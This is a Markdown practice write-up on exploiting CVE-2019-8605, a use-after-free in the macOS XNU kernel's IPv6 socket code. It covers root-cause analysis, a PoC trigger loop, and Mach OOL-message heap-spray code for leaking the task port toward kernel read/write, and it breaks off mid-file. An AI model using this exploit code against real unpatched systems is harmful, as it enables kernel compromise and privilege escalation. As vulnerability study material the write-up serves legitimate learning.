

## Mission Completed
Obtain kernel r/w primitive<br>

## Environment
macOS 10.14.1 (18B75)

# [Practice] Understanding CVE-2019-8605 (sock port 2)

## Root-cause analysis of the bug

```c
void in6_pcbdetach(struct inpcb *inp) {
    // ...
    if (!(so->so_flags & SOF_PCBCLEARING)) {
        struct ip_moptions *imo;
        struct ip6_moptions *im6o;

        inp->inp_vflag = 0;
        if (inp->in6p_options != NULL) {
            m_freem(inp->in6p_options);
            inp->in6p_options = NULL;   // <- correctly NULLed (GOOD)
        }
        ip6_freepcbopts(inp->in6p_outputopts);    // <- freed but NOT NULLed (BAD)
        // release IPv4-related resources for mapped addresses
        ROUTE_RELEASE(&inp->in6p_route);
        if (inp->inp_options != NULL) {
            (void)m_free(inp->inp_options);        // <- correctly NULLed (GOOD)
            inp->inp_options = NULL;
        }
        // ...
    }
}

```

The vulnerable code is shown above.

`ip6_freepcbopts` frees `inp->in6p_outputopts` but does not set it to NULL, so the pointer can be reused.

A pointer that remains pointing at freed memory because it wasn't NULLed is called a **dangling pointer.**

How can we trigger `ip6_freepcbopts`?

When I was looking at the Linux kernel, I found a site similar to elixir and you can trace it like this.

[https://newosxbook.com/xxr/index.php?q=ip6_freepcbopts&ver=xnu-4903.221.2&case=false&def=false](https://newosxbook.com/xxr/index.php?q=ip6_freepcbopts&ver=xnu-4903.221.2&case=false&def=false)

```c
Case-insensitive search for in6_pcbdetach in XNU version 4903.221.2
  bsd/netinet6/udp6_usrreq.c	689: in6_pcbdetach(inp);
894: in6_pcbdetach(inp);
  bsd/netinet6/in6_pcb.h	101:extern void in6_pcbdetach(struct inpcb *);
  bsd/netinet6/in6_pcb.c	170: in6_pcbdetach(inp);
631: in6_pcbdetach(inp);
635:in6_pcbdetach(struct inpcb *inp) definition
  bsd/netinet6/raw_ip6.c	829: in6_pcbdetach(inp);
  bsd/netinet/udp_usrreq.c	2477: in6_pcbdetach(inp);
  bsd/netinet/tcp_usrreq.c	2701: in6_pcbdetach(inp);
  bsd/netinet/raw_ip.c	1071: in6_pcbdetach(inp);
  bsd/netinet/tcp_timer.c	613: in6_pcbdetach(inp);
658: in6_pcbdetach(inp);
  bsd/netinet/flow_divert.c	2694: in6_pcbdetach(inp);
  bsd/netinet/tcp_subr.c	1591: in6_pcbdetach(inp);

void
in6_pcbdetach(struct inpcb *inp);
bsd/netinet6/in6_pcb.c	681: ip6_freepcbopts(inp->in6p_outputopts);

bsd/netinet6/ip6_output.c	3345:ip6_freepcbopts(struct ip6_pktopts *pktopt) definition
```

Back to the problem...

The problem here is that `inp->in6p_outputopts` is freed but not set to NULL, so the pointer can be reused.

It was further explained that this condition can be reached by disconnecting without destroying the socket.

## Proof of concept code

The following PoC is applied within the sandbox.

```c
while (1) {
    int s = socket(AF_INET6, SOCK_STREAM, IPPROTO_TCP);

    // allow setsockopt() after disconnect()
    struct so_np_extensions sonpx = {
        .npx_flags = SONPX_SETOPTSHUT,
        .npx_mask  = SONPX_SETOPTSHUT
    };
    setsockopt(s, SOL_SOCKET, SO_NP_EXTENSIONS, &sonpx, sizeof(sonpx));

    int minmtu = -1;
    setsockopt(s, IPPROTO_IPV6, IPV6_USE_MIN_MTU, &minmtu, sizeof(minmtu)); // allocates in6p_outputopts
    disconnectx(s, 0, 0);   // frees in6p_outputopts
    **setsockopt(s, IPPROTO_IPV6, IPV6_USE_MIN_MTU, &minmtu, sizeof(minmtu)); // UAF occurs**
    close(s);
}

```

# Exploit

## Task port leak using dangling ptrs

Now that we know the bug and how to trigger it, let's move on to the exploit.

Since this is a UAF bug, a technique called "heap spray" is used.

UAFed objects are freed, but what's the difference between freed memory and unfree memory...?

Freed memory can be reused. It is possible that the next allocation will end up at the same address where the freed object was, and in this way you can control the data in that object.

Now the questions that come to mind are: 

1. How do we tell the kernel to allocate memory?

2. How do we make sure it ends up at the same address?

Heapspray.

Since we have no control over where the data goes, we make lots of allocations and wait for it to arrive where we want it..

How we check if it has arrived depends on the object we UAF, but in this case it is possible and very simple.

3. What data should we put in it?

**There are several ways to do this, such as IOSurface or mach messages.**

(Note: Kernel memory is organized into regions based on the size of the allocation, so the allocation we create must be the same size as the UAFed object so it can end up at the same address. More on this later).

IOSurface is a kernel extension used for graphics that is accessible from the sandbox and provides methods to bring user-defined sized data into the kernel.

**Mach messages are used for interprocess communication, but since the kernel manages all processes, data is sent to the kernel first, so it is possible to use this method to send data to the kernel.**

First, let's look at what the dangling pointer `inp->in6p_outputopts` is.

Its type is `struct ip6_pktopts *`.

```c
void ip6_freepcbopts(struct ip6_pktopts *);
```

The way to reach it from the proc structure is as follows.

```c
our proc struct 
-> struct filedesc (named p_fd, offset = 0x100 or 0x108 on iOS 11) 
-> struct fileproc array (named fd_ofiles, offset = 0) 
-> element indexed by socket file descriptor 
-> struct fileglob (named f_fglob, offset = 8) 
-> struct socket (named fg_data, offset = 56) 
-> struct inpcb (named so_pcb, offset = 16) 
-> struct ip6_pktopts (named inp6_outputopts, offset = 304). 
```

Now, looking at "`struct ip6_pktopts`":

```c
struct ip6_pktopts {
    struct mbuf         *ip6po_m;
    int                  ip6po_hlim;
    **struct in6_pktinfo  *ip6po_pktinfo;**
    struct ip6po_nhinfo  ip6po_nhinfo;
    struct ip6_hbh      *ip6po_hbh;
    struct ip6_dest     *ip6po_dest1;
    struct ip6po_rhinfo  ip6po_rhinfo;
    struct ip6_dest     *ip6po_dest2;
    **int                  ip6po_tclass;**
    **int                  ip6po_minmtu;**
    **int                  ip6po_prefer_tempaddr;**
    int                  ip6po_flags;
};
```

Here, using **`get/setsockopt`** you can control the fields

`ip6po_pktinfo`

`ip6po_tclass`

`ip6po_minmtu`

`ip6po_prefer_tempaddr`

By exploiting the vulnerability, you can free this structure whenever you want and allocate it with desired contents using heap spray.

One thing you can do first is data leak.

You can read integers like

`int                  ip6po_minmtu;`

`int                  ip6po_prefer_tempaddr;`

This allows you to leak the kernel address of our task port.

How is this possible?
Use Ian Beer's simple spray technique using OOL messages.

OOL messages are important for XNU's IPC mechanism and can remain in kernel space until received.

[https://dmcyk.xyz/post/xnu_ipc_iii_ool_data/](https://dmcyk.xyz/post/xnu_ipc_iii_ool_data/)

Here, select an object of interest, e.g. **port right**, and prepare a Mach message containing multiple copies of the port right as an **OOL (Out-Of-Line) descriptor**.

Using the technique above, send this message to another ephemeral port, resulting in the port descriptors being copied into the `kalloc` zone multiple times.

The code is as follows.

```c
// from Ian Beer. make a kernel allocation with the kernel address of 'target_port', 'count' times
mach_port_t fill_kalloc_with_port_pointer(mach_port_t target_port, int count, int disposition) {
    mach_port_t q = MACH_PORT_NULL;
    kern_return_t err;
    err = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &q);
    if (err != KERN_SUCCESS) {
        printf("[-] failed to allocate port\n");
        return 0;
    }
    
    mach_port_t* ports = malloc(sizeof(mach_port_t) * count);
    for (int i = 0; i < count; i++) {
        ports[i] = target_port;
    }
    
    struct ool_msg* msg = (struct ool_msg*)calloc(1, sizeof(struct ool_msg));
    
    msg->hdr.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = (mach_msg_size_t)sizeof(struct ool_msg);
    msg->hdr.msgh_remote_port = q;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_id = 0x41414141;
    
    msg->body.msgh_descriptor_count = 1;
    
    msg->ool_ports.address = ports;
    msg->ool_ports.count = count;
    msg->ool_ports.deallocate = 0;
    msg->ool_ports.disposition = disposition;
    msg->ool_ports.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    msg->ool_ports.copy = MACH_MSG_PHYSICAL_COPY;
    
    err = mach_msg(&msg->hdr,
                   MACH_SEND_MSG|MACH_MSG_OPTION_NONE,
                   msg->hdr.msgh_size,
                   0,
                   MACH_PORT_NULL,
                   MACH_MSG_TIMEOUT_NONE,
                   MACH_PORT_NULL);
    
    if (err != KERN_SUCCESS) {
        printf("[-] failed to send message: %s\n", mach_error_string(err));
        return MACH_PORT_NULL;
    }
    
    return q;
}
```

Note that in the code above, the message is **sent (MACH_SEND_MSG)** but **not received**.

This way, until the message is received or the destination port is destroyed, **the port spray remains in kernel space**.

Therefore, the spray function returns the **target port**. After the copy is complete inside the kernel, release the port and attempt to leak the address.

Kernel zone pointers always look like `0xffffff8.........`, so even if only the upper 1 byte of 8 bytes is 0 (i.e., **only 7 bytes are leaked**), you can recognize it as a kernel pointer.

For example, run the code below and debug.

```c
int main(int argc, char *argv[], char *envp[]) {

    mach_port_t p = fill_kalloc_with_port_pointer(mach_task_self(), 192/sizeof(uint64_t), MACH_MSG_TYPE_COPY_SEND);
    printf("p: 0x%x\n", p);
    while(1) {};

    return 0;
}
```

The 192-size kalloc is performed inside
the `ipc_kmsg_copyin_ool_ports_descriptor` function.

Debugging with QEMU,
I had to use lldb on the virtual host Mac and gdb-gef on Ubuntu at the same time.

```nasm
Target 0: (kernel) stopped.
(lldb) p/x ipc_kmsg_copyin_ool_ports_descriptor
(mach_msg_descriptor_t *(*)(mach_msg_ool_ports_descriptor_t *, mach_msg_descriptor_t *, int, vm_map_t, ipc_space_t, ipc_object_t, ipc_kmsg_t, mach_msg_option_t *, mach_msg_return_t *)) $0 = 0xffffff801778df60 (kernel`ipc_kmsg_copyin_ool_ports_descriptor at ipc_kmsg.c:2810)

# ipc_kmsg_copyin_ool_ports_descriptor function address is 0xffffff801778df60 
# kalloc is called at ipc_kmsg_copyin_ool_ports_descriptor+0xe9.
gef> b *0xffffff801778df60+0xe9
Breakpoint 2 at 0xffffff801778e049

# kalloc allocation address is ipc_kmsg_copyin_ool_ports_descriptor+0xee, so set breakpoint right after the call
gef> b *0xffffff801778df60+0xee
Breakpoint 3 at 0xffffff801778e04e
```

With this somewhat tricky debugging, you can see kalloc allocating



0xc0(=192) bytes.


The allocated address is 0xffffff801f79a540.

After continuing and checking the allocation address again,


You can see consecutive values filled as above.
This is the task address of our process.

Because `ports_length` is set to the same size as the dangling `inp->in6p_outputopts`,
the array can be allocated at the memory space we freed, and you can leak the value again through socket-related functions.

### In-depth analysis of leaking the task port via dangling pointer

Source:

[https://wnagzihxa1n.vip/assets/pdf/CVE-2019-8605 FROM UAF TO TFP0.pdf](https://wnagzihxa1n.vip/assets/pdf/CVE-2019-8605%20FROM%20UAF%20TO%20TFP0.pdf) / Translated via ChatGPT.

The typical exploit method for UAF (Use-After-Free) vulnerabilities is to perform heap spraying so that the freed space is reallocated and leak the address once.

So what address should we try to leak?

**Task Port**

To explain what a Task Port is and what you can do with it, let's first introduce the concept of Task in XNU.

A Task is a container of resources, encapsulating virtual address space, processor resources, scheduling control, etc. The corresponding structure is as follows, with particular attention to the **IPC structure part**.

```c
struct task {
    /* Synchronization/destruction information */
    decl_lck_mtx_data(,lock)		/* Task's lock */
    _Atomic uint32_t	ref_count;	/* Number of references to me */
    boolean_t	active;		/* Task has not been terminated */
    boolean_t	halting;	/* Task is being halted */
    /* Virtual timers */
    uint32_t		vtimers;

    /* Miscellaneous */
    vm_map_t	map;		/* Address space description */
    queue_chain_t	tasks;	/* global list of tasks */

#if defined(CONFIG_SCHED_MULTIQ)
    sched_group_t sched_group;
#endif /* defined(CONFIG_SCHED_MULTIQ) */

    /* Threads in this task */
    queue_head_t		threads;

    processor_set_t		pset_hint;
    struct affinity_space	*affinity_space;

    int			thread_count;
    uint32_t		active_thread_count;
    int			suspend_count;	/* Internal scheduling only */

    /* User-visible scheduling information */
    integer_t		user_stop_count;	/* outstanding stops */
    integer_t		legacy_stop_count;	/* outstanding legacy stops */

    integer_t		priority;			/* base priority for threads */
    integer_t		max_priority;		/* maximum priority for threads */

    integer_t		importance;		/* priority offset (BSD 'nice' value) */

    /* Task security and audit tokens */
    security_token_t sec_token;
    audit_token_t	audit_token;

    /* Statistics */
    uint64_t		total_user_time;	/* terminated threads only */
    uint64_t		total_system_time;
    uint64_t		total_ptime;
    uint64_t		total_runnable_time;

    /* IPC structures */
    decl_lck_mtx_data(,itk_lock_data)
    struct ipc_port *itk_self;	/* not a right, doesn't hold ref */
    struct ipc_port *itk_nself;	/* not a right, doesn't hold ref */
    struct ipc_port *itk_sself;	/* a send right */
    struct exception_action exc_actions[EXC_TYPES_COUNT];
                    /* a send right each valid element  */
    struct ipc_port *itk_host;	/* a send right */
    struct ipc_port *itk_bootstrap;	/* a send right */
    struct ipc_port *itk_seatbelt;	/* a send right */
    struct ipc_port *itk_gssd;	/* yet another send right */
    struct ipc_port *itk_debug_control; /* send right for debugmode communications */
    struct ipc_port *itk_task_access; /* and another send right */ 
    struct ipc_port *itk_resume;	/* a receive right to resume this task */
    struct ipc_port *itk_registered[TASK_PORT_REGISTER_MAX];
                    /* all send rights */

    **struct ipc_space *itk_space;
    ...
}**
```

Simply put, **Task Port** is a port representing a task itself. 
You can get it by calling `mach_task_self` or `mach_task_self()`, and you can do various things with this port!

For example, the first argument of the function `find_port_via_uaf()` below is the Task Port obtained by calling `mach_task_self()`.

The process of leaking the Task Port is as follows.

First, obtain the socket with the vulnerability, fill the freed memory, and use `inp->in6p_outputopts` to read data.

The reason for not directly filling the data is that ports are represented differently in user mode and kernel mode, so simply filling the port in user mode does not mean it will be recognized correctly in kernel mode.

- In user mode, Port is **unsigned int**
- In kernel mode, Port is **`ipc_port` structure**

So how can you allocate the **kernel address** of the `ipc_port` structure to `inp->in6p_outputopts`?

The answer: **Use OOL Message (Out-Of-Line message)**.

`OOL Message` is defined as follows, and the `mach_msg_ool_ports_descriptor_t` structure allows you to send multiple Mach Ports as an array in one message.

```c
struct ool_msg {
 mach_msg_header_t hdr;
 mach_msg_body_t body;
 mach_msg_ool_ports_descriptor_t ool_ports;
};
```

Why use OOL(Message) for filling? 
The reason can be found by analyzing the source code.

Mach message sending/receiving relies on the `mach_msg()` function, which is implemented in both user and kernel mode.

Following the `mach_msg()` function, it internally calls `mach_msg_trap()`,

`mach_msg_trap()` then calls `mach_msg_overwrite_trap()`.

```c
mach_msg_return_t
mach_msg_trap(
 struct mach_msg_overwrite_trap_args *args)
{
 kern_return_t kr;
 args->rcv_msg = (mach_vm_address_t)0;
 kr = mach_msg_overwrite_trap(args);
 return kr;
}
```

When the second argument of `mach_msg()` is `MACH_SEND_MSG`,

Internally, the **`ipc_kmsg_get()`** function is called to **allocate the buffer** and **copy user mode data to kernel mode**.

```c
mach_msg_return_t
mach_msg_overwrite_trap(
 struct mach_msg_overwrite_trap_args *args)
{
 mach_vm_address_t msg_addr = args->msg;
 mach_msg_option_t option = args->option; // mach_msg() second argument
个参数
 ...
 mach_msg_return_t mr = MACH_MSG_SUCCESS; // ⼤吉⼤利
 vm_map_t map = current_map();
 /* Only accept options allowed by the user */
 option &= MACH_MSG_OPTION_USER;
 if (option & MACH_SEND_MSG) {
 ipc_space_t space = current_space();
 ipc_kmsg_t kmsg; // create kmsg variable
 // Allocate buffer and copy message header from user mode to kernel mode
 mr = ipc_kmsg_get(msg_addr, send_size, &kmsg);
 // Convert ports and copy message body
 mr = ipc_kmsg_copyin(kmsg, space, map, override, &option);
 // Send message
 mr = ipc_kmsg_send(kmsg, option, msg_timeout);
 }
 if (option & MACH_RCV_MSG) {
 ...
 }
 return MACH_MSG_SUCCESS;
 }
```

In the `ipc_kmsg_get()` function, `ipc_kmsg_t` is the **kernel mode message storage structure**.

The copy process is explained in the comments, mainly handling `kmsg->ikm_header`.

```c
mach_msg_return_t
ipc_kmsg_get(
 mach_vm_address_t msg_addr,
 mach_msg_size_t size,
 ipc_kmsg_t *kmsgp)
{
 mach_msg_size_t msg_and_trailer_size;
 ipc_kmsg_t kmsg;
 mach_msg_max_trailer_t *trailer;
 mach_msg_legacy_base_t legacy_base;
 mach_msg_size_t len_copied;
 legacy_base.body.msgh_descriptor_count = 0;
 // Check length parameter
 ...
 // mach_msg_legacy_base_t structure length is same as mach_msg_base_t
 if (size == sizeof(mach_msg_legacy_header_t)) {
 len_copied = sizeof(mach_msg_legacy_header_t);
 } else {
 len_copied = sizeof(mach_msg_legacy_base_t);
 }

 // Copy message from user mode to kernel mode
 if (copyinmsg(msg_addr, (char *)&legacy_base, len_copied)) {
 return MACH_SEND_INVALID_DATA;
 }
 // Get start address of kernel mode message variable
 msg_addr += sizeof(legacy_base.header);
 // Add longest trailer length directly, as receiver may define any kind of trailer
 // typedef mach_msg_mac_trailer_t mach_msg_max_trailer_t;
 // #define MAX_TRAILER_SIZE
((mach_msg_size_t)sizeof(mach_msg_max_trailer_t))
 msg_and_trailer_size = size + MAX_TRAILER_SIZE;

 // Allocate kernel space
 kmsg = ipc_kmsg_alloc(msg_and_trailer_size);
 // Initialize some fields of kmsg.ikm_header
 ...
 // Copy message body (trailer not included here)
 if (copyinmsg(msg_addr, (char *)(kmsg->ikm_header + 1), size -
(mach_msg_size_t)sizeof(mach_msg_header_t))) {
 ipc_kmsg_free(kmsg);
 return MACH_SEND_INVALID_DATA;
 }
 // Find start address of trailer and initialize
 trailer = (mach_msg_max_trailer_t *) ((vm_offset_t)kmsg->ikm_header + size);
 trailer->msgh_sender = current_thread()->task->sec_token;
 trailer->msgh_audit = current_thread()->task->audit_token;
 trailer->msgh_trailer_type = MACH_MSG_TRAILER_FORMAT_0;
 trailer->msgh_trailer_size = MACH_MSG_TRAILER_MINIMUM_SIZE;
 trailer->msgh_labels.sender = 0;

 *kmsgp = kmsg;
 return MACH_MSG_SUCCESS;
}
```

The `ipc_kmsg_copyin()` function is the main logic to analyze.

Unrelated parts are omitted, and
the `ipc_kmsg_copyin_header()` function is not relevant here,
so mainly look at `ipc_kmsg_copyin_body()`.

```c
mach_msg_return_t
ipc_kmsg_copyin(
 ipc_kmsg_t kmsg,
 ipc_space_t space,
 vm_map_t map,
 mach_msg_priority_t override,
 mach_msg_option_t *optionp)
{
 mach_msg_return_t mr;
 kmsg->ikm_header->msgh_bits &= MACH_MSGH_BITS_USER;
 mr = ipc_kmsg_copyin_header(kmsg, space, override, optionp);
 if ((kmsg->ikm_header->msgh_bits & MACH_MSGH_BITS_COMPLEX) == 0)
 return MACH_MSG_SUCCESS;
 mr = ipc_kmsg_copyin_body( kmsg, space, map, optionp);
 return mr;
}
```

The `ipc_kmsg_copyin_body()` function first checks if OOL data meets conditions,
adjusts kernel space as needed,
and finally calls the key function `ipc_kmsg_copyin_ool_ports_descriptor()`.

```c
mach_msg_return_t
ipc_kmsg_copyin_body(
 ipc_kmsg_t kmsg,
 ipc_space_t space,
 vm_map_t map,
 mach_msg_option_t *optionp)
{
 ipc_object_t dest;
 mach_msg_body_t *body;
 mach_msg_descriptor_t *daddr, *naddr;
 mach_msg_descriptor_t *user_addr, *kern_addr;
 mach_msg_type_number_t dsc_count;
 // #define VM_MAX_ADDRESS ((vm_address_t) 0x80000000)
 boolean_t is_task_64bit = (map->max_offset >
VM_MAX_ADDRESS);
 boolean_t complex = FALSE;
 vm_size_t space_needed = 0;
 vm_offset_t paddr = 0;
 vm_map_copy_t copy = VM_MAP_COPY_NULL;
 mach_msg_type_number_t i;
 mach_msg_return_t mr = MACH_MSG_SUCCESS;
 vm_size_t descriptor_size = 0;
 mach_msg_type_number_t total_ool_port_count = 0;
 // Target port
 dest = (ipc_object_t) kmsg->ikm_header->msgh_remote_port;
 // Start address of kernel mode message body
 body = (mach_msg_body_t *) (kmsg->ikm_header + 1);
 naddr = (mach_msg_descriptor_t *) (body + 1);
 // If msgh_descriptor_count is 0, return immediately — here we set it to 1
 dsc_count = body->msgh_descriptor_count;
 if (dsc_count == 0) return MACH_MSG_SUCCESS;
 daddr = NULL;
 for (i = 0; i < dsc_count; i++) {
 mach_msg_size_t size;
 mach_msg_type_number_t ool_port_count = 0;
 daddr = naddr;
 /* make sure the descriptor fits in the message */
 // First field of mach_msg_ool_ports_descriptor_t is address
 // void* address;
 // 8 bytes for 64-bit, 4 bytes for 32-bit
 if (is_task_64bit) {
 switch (daddr->type.type) {
 case MACH_MSG_OOL_DESCRIPTOR:
 case MACH_MSG_OOL_VOLATILE_DESCRIPTOR:
 case MACH_MSG_OOL_PORTS_DESCRIPTOR:
 descriptor_size += 16;
 naddr = (typeof(naddr))((vm_offset_t)daddr + 16);
 break;
 default:
 descriptor_size += 12;
 naddr = (typeof(naddr))((vm_offset_t)daddr + 12);
 break;
 }
 } else {
 descriptor_size += 12;
 naddr = (typeof(naddr))((vm_offset_t)daddr + 12);
 }
 }
 user_addr = (mach_msg_descriptor_t *)((vm_offset_t)kmsg-
>ikm_header + sizeof(mach_msg_base_t));
 // If descriptor_size != 16*dsc_count, adjust left — with 1 descriptor, size is 16 bytes, so no need to move
 if(descriptor_size != 16*dsc_count) {
 vm_offset_t dsc_adjust = 16*dsc_count - descriptor_size;
 memmove((char *)(((vm_offset_t)kmsg->ikm_header) -
dsc_adjust), kmsg->ikm_header, sizeof(mach_msg_base_t));
 kmsg->ikm_header = (mach_msg_header_t *)((vm_offset_t)kmsg-
>ikm_header - dsc_adjust);
 kmsg->ikm_header->msgh_size += (mach_msg_size_t)dsc_adjust;
 }
 kern_addr = (mach_msg_descriptor_t *)((vm_offset_t)kmsg-
>ikm_header + sizeof(mach_msg_base_t));
 /* handle the OOL regions and port descriptors. */
 for(i = 0; i < dsc_count; i++) {
 switch (user_addr->type.type) {
 case MACH_MSG_OOL_PORTS_DESCRIPTOR:
 user_addr =
ipc_kmsg_copyin_ool_ports_descriptor((mach_msg_ool_ports_descriptor_t
*)kern_addr,
 user_addr, is_task_64bit, map, space,
dest, kmsg, optionp, &mr);
 kern_addr++;
 complex = TRUE;
 break;
 }
 } /* End of loop */

 ...
}
```

The `ipc_kmsg_copyin_ool_ports_descriptor()` function focuses on handling OOL data,
and calls the key function `ipc_object_copyin()`.

```c
mach_msg_descriptor_t *
ipc_kmsg_copyin_ool_ports_descriptor(
 mach_msg_ool_ports_descriptor_t *dsc,
 mach_msg_descriptor_t *user_dsc,
 int is_64bit,
 vm_map_t map,
 ipc_space_t space,
 ipc_object_t dest,
 ipc_kmsg_t kmsg,
 mach_msg_option_t *optionp,
 mach_msg_return_t *mr)
{
 void *data;
 ipc_object_t *objects;
 unsigned int i;
 mach_vm_offset_t addr;
 mach_msg_type_name_t user_disp;
 mach_msg_type_name_t result_disp;
 mach_msg_type_number_t count;
 mach_msg_copy_options_t copy_option;
 boolean_t deallocate;
 mach_msg_descriptor_type_t type;
 vm_size_t ports_length, names_length;
 if (is_64bit) {
 mach_msg_ool_ports_descriptor64_t *user_ool_dsc =
(typeof(user_ool_dsc))user_dsc;
 addr = (mach_vm_offset_t)user_ool_dsc->address;
 count = user_ool_dsc->count;
 deallocate = user_ool_dsc->deallocate;
 copy_option = user_ool_dsc->copy;
 user_disp = user_ool_dsc->disposition;
 type = user_ool_dsc->type;
 user_dsc = (typeof(user_dsc))(user_ool_dsc+1);
 } else {
 ...
 }
 data = kalloc(ports_length);
#ifdef __LP64__
 mach_port_name_t *names = &((mach_port_name_t *)data)[count];
#else
 mach_port_name_t *names = ((mach_port_name_t *)data);
#endif
 objects = (ipc_object_t *) data;
 dsc->address = data;
 for ( i = 0; i < count; i++) {
 mach_port_name_t name = names[i];
 ipc_object_t object;
 if (!MACH_PORT_VALID(name)) {
 objects[i] = (ipc_object_t)CAST_MACH_NAME_TO_PORT(name);
 continue;
 }
 kern_return_t kr = ipc_object_copyin(space, name, user_disp,
&object);
 objects[i] = object;
 }
 return user_dsc;
}
```

The `ipc_object_copyin()` function includes two functions: `ipc_right_lookup_write()` and `ipc_right_copyin()`.

```c
kern_return_t
ipc_object_copyin(
 ipc_space_t space,
 mach_port_name_t name,
 mach_msg_type_name_t msgt_name,
 ipc_object_t *objectp)
{
 ipc_entry_t entry;
 ipc_port_t soright;
 ipc_port_t release_port;
 kern_return_t kr;
 int assertcnt = 0;
 kr = ipc_right_lookup_write(space, name, &entry);
 release_port = IP_NULL;
 kr = ipc_right_copyin(space, name, entry,
 msgt_name, TRUE,
 objectp, &soright,
 &release_port,
 &assertcnt);
 ...
 return kr;
}
```

The `ipc_right_lookup_write()` function calls `ipc_entry_lookup()`,
and assigns its return value to `entry`.

```c
kern_return_t
ipc_right_lookup_write(
 ipc_space_t space,
 mach_port_name_t name,
 ipc_entry_t *entryp)
{
 ipc_entry_t entry;
 is_write_lock(space);
 if ((entry = ipc_entry_lookup(space, name)) == IE_NULL) {
 is_write_unlock(space);
 return KERN_INVALID_NAME;
 }
 *entryp = entry;
 return KERN_SUCCESS;
}
```

Here, two concepts need to be clarified.

First is the `ipc_space` structure, representing the entire Task's IPC space.

Second is the `ipc_entry` structure, which points to the `ipc_object` structure.

The `ipc_space` structure has a member `is_table`, which stores all `ipc_entry` for the current Task.

In this scenario, the `ipc_entry` points to an `ipc_port`.

So, the `entry` variable gets the **kernel mode address** of the Task Port passed in.

```c
ipc_entry_t
ipc_entry_lookup(
 ipc_space_t space,
 mach_port_name_t name)
{
 mach_port_index_t index;
 ipc_entry_t entry;
 index = MACH_PORT_INDEX(name);
 if (index < space->is_table_size) {
 entry = &space->is_table[index];
 ...
 }
 return entry;
}
```

Tracing up the call chain, the `objectp` argument of `ipc_object_copyin()` is stored in the `objects[]` array in the caller `ipc_kmsg_copyin_ool_ports_descriptor()` function. This `objects[]` array is allocated in the `ipc_kmsg_copyin_ool_ports_descriptor` function, so all you need to do is set `ports_length` to the same size as `inp->in6p_outputopts`. This way, the array is allocated in the memory space we freed.

```c
data = kalloc(ports_length);
objects = (ipc_object_t *) data;
```

A **logic call flow diagram** was created. **Pay attention to the red box.**


First, create a Ports array to store the user mode Task Port, then construct the OOL message. The rest is not important; the key is `msg->ool_ports.address` and `msg->ool_ports.count`. If these two items are properly configured, the rest is just calling `msg_send()` to send the message, which triggers the allocation and writes the user mode Task Port as the kernel mode Task Port address into the memory space we control.

```c
mach_port_t fill_kalloc_with_port_pointer(mach_port_t target_port, int count, int disposition) {
    mach_port_t q = MACH_PORT_NULL;
    kern_return_t err;
    err = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &q);
    if (err != KERN_SUCCESS) {
        printf("[-] failed to allocate port\n");
        return 0;
    }
    
    mach_port_t* ports = malloc(sizeof(mach_port_t) * count);
    for (int i = 0; i < count; i++) {
        ports[i] = target_port;
    }
    
    struct ool_msg* msg = (struct ool_msg*)calloc(1, sizeof(struct ool_msg));
    
    msg->hdr.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = (mach_msg_size_t)sizeof(struct ool_msg);
    msg->hdr.msgh_remote_port = q;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_id = 0x41414141;
    
    msg->body.msgh_descriptor_count = 1;
    
    msg->ool_ports.address = ports;
    msg->ool_ports.count = count;
    msg->ool_ports.deallocate = 0;
    msg->ool_ports.disposition = disposition;
    msg->ool_ports.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    msg->ool_ports.copy = MACH_MSG_PHYSICAL_COPY;
    
    err = mach_msg(&msg->hdr,
                   MACH_SEND_MSG|MACH_MSG_OPTION_NONE,
                   msg->hdr.msgh_size,
                   0,
                   MACH_PORT_NULL,
                   MACH_MSG_TIMEOUT_NONE,
                   MACH_PORT_NULL);
    
    if (err != KERN_SUCCESS) {
        printf("[-] failed to send message: %s\n", mach_error_string(err));
        return MACH_PORT_NULL;
    }
    
    return q;
}
```

The size of the dangling structure `ip6_pktopts` is 192.

Since I couldn't find the header file containing this structure, I had to copy the entire structure and use it.

Then I called the `sizeof()` function to calculate the size.

Here, based on the structure member distribution, I chose `ip6po_minmtu` and `ip6po_prefer_tempaddr` and added kernel pointer characteristics for identification.

### Code to leak the task port

[https://github.com/wh1te4ever/xnu_1day_practice/commit/35a968930c82a6f9c82948841bcc053b2ff906c9](https://github.com/wh1te4ever/xnu_1day_practice/commit/35a968930c82a6f9c82948841bcc053b2ff906c9)

```c
#include <stdio.h>
#include <stdint.h>
#include <stdbool.h>
#include <mach/mach.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <errno.h>

#include "helper.h"
#include "iosurface.h"
#include "exp.h"

/* int; prefer temporary addresses as the source address. */
#define IPV6_PREFER_TEMPADDR    63

#define IPV6_USE_MIN_MTU        42 /* bool; send packets at the minimum MTU */

struct ool_msg  {
    mach_msg_header_t hdr;
    mach_msg_body_t body;
